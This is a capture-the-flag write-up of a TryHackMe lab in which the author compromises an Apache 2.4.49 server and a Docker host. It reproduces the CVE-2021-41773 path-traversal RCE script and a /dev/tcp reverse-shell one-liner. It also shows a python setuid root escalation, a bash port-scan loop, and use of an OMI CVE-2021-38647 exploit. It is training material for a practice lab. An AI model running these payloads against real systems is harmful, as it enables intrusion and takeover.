




# OhMyWebServer

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/ohmyweb](https://tryhackme.com/room/h4cked)

**Difficulty:** Medium

**Category:** Boot-to-root

**Description:**

- Name: Oh My WebServer
- Additional Info: Can you root me?

## TLDR

A web app on Apache 2.4.49 was vulnerable to path traversal and RCE, through which a shell was obtained inside a Docker container as `daemon`. The `cap_setuid` capability was set on Python, allowing escalation to root inside the container. The host system's IP was identified and port 5986 was found running OMI (Open Management Infrastructure), which was vulnerable to `CVE-2021-38647`, thereby compromising the host.

## Initial Reconnaissance

Nmap scan:

```bash
nmap -A -v <IP> -oN nmapresult.txt
```



The website at port 80 seems like a typical website. Directory fuzzing also leads nowhere. 

From the nmap scan and the Wappalyzer extension, the server is running on Apache version 2.4.49. 



## Exploitation

Looking into exploitdb, that version is associated with the `CVE-2021-41773`, called the Apache Path Traversal. 

```bash
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh 
```

The exploit used:

```bash
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```

An attacker could use a path traversal attack to map URLs to files outside the directories configured by `Alias-like directives`. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. 

Running the script with `id` command to check if it works, gives the uid of `daemon`. 

```bash
┌──(Mikayn㉿kali)-[~/thm/ohmywebserver]
└─$ ./exploit.sh target.txt /bin/bash id
http://10.49.140.162/
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Once RCE is confirmed, the next step is to try and establish a foothold on the server using a reverse shell. The command that I used was `/bin/bash -i >& /dev/tcp/<IP>/<LISTENING PORT> 0>&1` .

And I was in.

```bash
┌──(Mikayn㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<IP>] from (UNKNOWN) [10.49.140.162] 53136
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$ ls -al /
ls -al /
total 76
drwxr-xr-x   1 root root 4096 Feb 23  2022 .
drwxr-xr-x   1 root root 4096 Feb 23  2022 ..
-rwxr-xr-x   1 root root    0 Feb 23  2022 .dockerenv
drwxr-xr-x   1 root root 4096 Oct  8  2021 bin
drwxr-xr-x   2 root root 4096 Jun 13  2021 boot
drwxr-xr-x   5 root root  340 May  6 07:29 dev
drwxr-xr-x   1 root root 4096 Feb 23  2022 etc
drwxr-xr-x   2 root root 4096 Jun 13  2021 home
drwxr-xr-x   1 root root 4096 Oct  8  2021 lib
drwxr-xr-x   2 root root 4096 Sep 27  2021 lib64
drwxr-xr-x   2 root root 4096 Sep 27  2021 media
drwxr-xr-x   2 root root 4096 Sep 27  2021 mnt
drwxr-xr-x   2 root root 4096 Sep 27  2021 opt
dr-xr-xr-x 184 root root    0 May  6 07:29 proc
drwx------   1 root root 4096 Oct  8  2021 root
drwxr-xr-x   3 root root 4096 Sep 27  2021 run
drwxr-xr-x   1 root root 4096 Oct  8  2021 sbin
drwxr-xr-x   2 root root 4096 Sep 27  2021 srv
dr-xr-xr-x  13 root root    0 May  6 07:29 sys
drwxrwxrwt   1 root root 4096 Feb 23  2022 tmp
drwxr-xr-x   1 root root 4096 Sep 27  2021 usr
drwxr-xr-x   1 root root 4096 Sep 27  2021 var
```

## Shell as daemon

The weird hostname `4a70924bafa0` and the `.dockerenv` confirmed that this was a docker container. My first thought was to try and escape this container. 

Checking SUID binaries, I found `suexec`, which I don’t normally see in this rooms. 

```bash
find / -perm -4000 2>/dev/null

/usr/local/apache2/bin/suexec
```

Surprisingly, there was an entry for this in exploitdb as well. 

```bash
Apache suEXEC - Information Disclosure / Privilege Escalation  | linux/remote/27397.txt
```

I read the txt file and found that using that exploit, it was possible to read files as `www-data` by any user from the website, but that was useless since I was already in the machine. 

I looked around a bit more but could not find a way to escape the container. What better way to look for clues than using `linpeas`. 

The `linpeas.sh` must be transferred from my device to the container. This can be done via `wget` or `curl`. I started a python server in my device and used `curl` to fetch the script.

```bash
daemon@4a70924bafa0:/tmp$ curl -O http://<MY IP>:8080/linpeas.sh
curl -O http://<MY IP>:8080/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  966k  100  966k    0     0   759k      0  0:00:01  0:00:01 --:--:--  759k
daemon@4a70924bafa0:/tmp$ ls
ls
linpeas.sh
```

I did not find a way to escape, but I found something equally interesting. 



## Escalate to root

Python has `cap+setuid+ep` capability which means one can change their uid using Python. Normally, this would be off since this is a huge privilege escalation vector.  

```bash
daemon@4a70924bafa0:/bin$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1(daemon) groups=1(daemon)
cd
/bin/bash: line 2: cd: HOME not set
cd /root
ls -al
total 28
drwx------ 1 root root   4096 Oct  8  2021 .
drwxr-xr-x 1 root root   4096 Feb 23  2022 ..
lrwxrwxrwx 1 root root      9 Oct  8  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root    570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root   4096 Oct  8  2021 .cache
-rw-r--r-- 1 root root    148 Aug 17  2015 .profile
-rw------- 1 root daemon   12 Oct  8  2021 .python_history
-rw-r--r-- 1 root root     38 Oct  8  2021 user.txt
cat user.txt
THM{REDACTED}
```

And thats the user flag. So I was stuck now for some time since linpeas also could not give a path for escape. I was stuck for some time but looking at the IP sparked a thought. 

`inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255`

If the IP ended in 2, there must also be 1 right? `ping` was not available so I used `curl` just in case. And it actually gave a response back. I was not sure since what were the odds `80` would be on. 

```bash
root@4a70924bafa0:/root# ping 172.17.0.1
ping 172.17.0.1
bash: ping: command not found
root@4a70924bafa0:/root# curl http://172.17.0.1
curl http://172.17.0.1
<!doctype html>
<html class="no-js" lang="en">

<head>
    <meta charset="utf-8">

    <!--====== Title ======-->
    <title>Consult - Business Consultancy Agency Template | Home</title>
```

## Further Reconnaissance

Its not feasible to do this for all 65535 ports, so I asked claude to give me a script to check this. 

```bash
root@4a70924bafa0:/bin# for port in {1..65535}; do timeout 1 bash -c "echo >/dev/tcp/172.17.0.1/$port" && echo "port $port is open"; done
<72.17.0.1/$port" && echo "port $port is open"; done
port 22 is open
port 80 is open
port 5986 is open
```

Ports 22 and 80 are common but 5986 is not. 



Its used by WinRM for Windows machines and OMI for Linux. I found multiple exploits on this service in this article: https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

One of them is unauthenticated RCE, and that too as root. This caught my eye and I looked into the `CVE-2021-38647` . I found the PoC for this on github at https://github.com/AlteredSecurity/CVE-2021-38647/blob/main/CVE-2021-38647.py

## Exploitation

After that, it was simple enough to exploit. 

First, download it on attacking machine: 

`wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/refs/heads/main/CVE-2021-38647.py`

Then, set up a python server and curl it from the container. 

Attacker machine:

`python -m http.server 8080`

Container:

`curl -O http://<Attacker Machine IP>:8080/CVE-2021-38647.py`

Then get the flag. 

```bash
root@4a70924bafa0:/tmp# python3 CVE-2021-38647.py -t 172.17.0.1 -c 'cat /root/root.txt'
<2021-38647.py -t 172.17.0.1 -c 'cat /root/root.txt'
THM{REDACTED}
```

And thats the room completed. Definitely worthy of its difficulty. Was a nice challenge for me. 

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Identified an Apache webapp on version 2.4.49 |
| 2 | Look up version on exploitdb | Path traversal and RCE possible |
| 3 | Send payload  | Reverse shell as `daemon` in a container |
| 4 | Run `linpeas` on the system | Root via `cap_setuid+ep` set on Python  |
| 5 | `ifconfig` to check IP | IP ends on 2. Assume host IP ends on 1 |
| 6 | Custom script to scan ports on host | Ports 22, 80 and 5986 found |
| 7 | Look up exploits on port 5986 | `CVE-2021-38647` found |
| 8 | Run the exploit | Unauthenticated RCE as root + root flag |
